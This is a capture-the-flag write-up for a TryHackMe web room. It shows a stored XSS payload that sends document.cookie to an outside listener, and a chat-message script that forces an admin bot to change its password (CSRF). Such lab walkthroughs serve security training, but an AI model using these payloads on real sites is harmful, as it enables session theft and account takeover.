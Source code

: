 # Whats Your Name

https://tryhackme.com/r/room/whatsyourname

"This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks...Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?"

A simple enough room, with some clever XSS / CSRF exploitation.

1. A scan reveals 22, 80 and 8081. There is a note saying the domain **worldwap.thm** should be set in hosts
2. On worldwap.thm is a site where you can register a new account. Going by the hints and the room name, a guess is the 'name' field might be vulnerable to xss
3. To exploit this, I registered a new user with the name ``<script>fetch(`http://10.10.162.83:443/?z=${document.cookie}`)</script>`` and set up a webserver. This got a cookie value that then worked on login.worldwap.thm (the domain is revealed when you register a user)
4. On The second site, logged in as a 'moderator', the first flag is visible in the heading.
5. There are two features of this site: a chat system with the admin bot and a change password tool. Change password when attempted, says it only works for the admin.
6. By creating the following chat message, I performed CSRF on the admin: `<script>fetch('/change_password.php', {method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded'},body: 'new_password=Password1'})</script>`
7. Finally, I was able to log in as `admin:Password1` and get the final flag from the header.

I had a bit of experimentation with this room, attempts that didn't work out. First, on the XSS, trying fetch(url+document.cookie) note the plus didn't work. Some encoding fail no doubt somewhere, despite my efforts with url encoding. Using a javascript string literal managed to get past this.

Secondly, the chat exploitation was a bit tricky. Initial attempts with js failed, not sure why, but I found that putting in links would work. Initially I tried some sort of exploitation with httpbeef, but update troubles got in the way.

Fun little room anyway :)
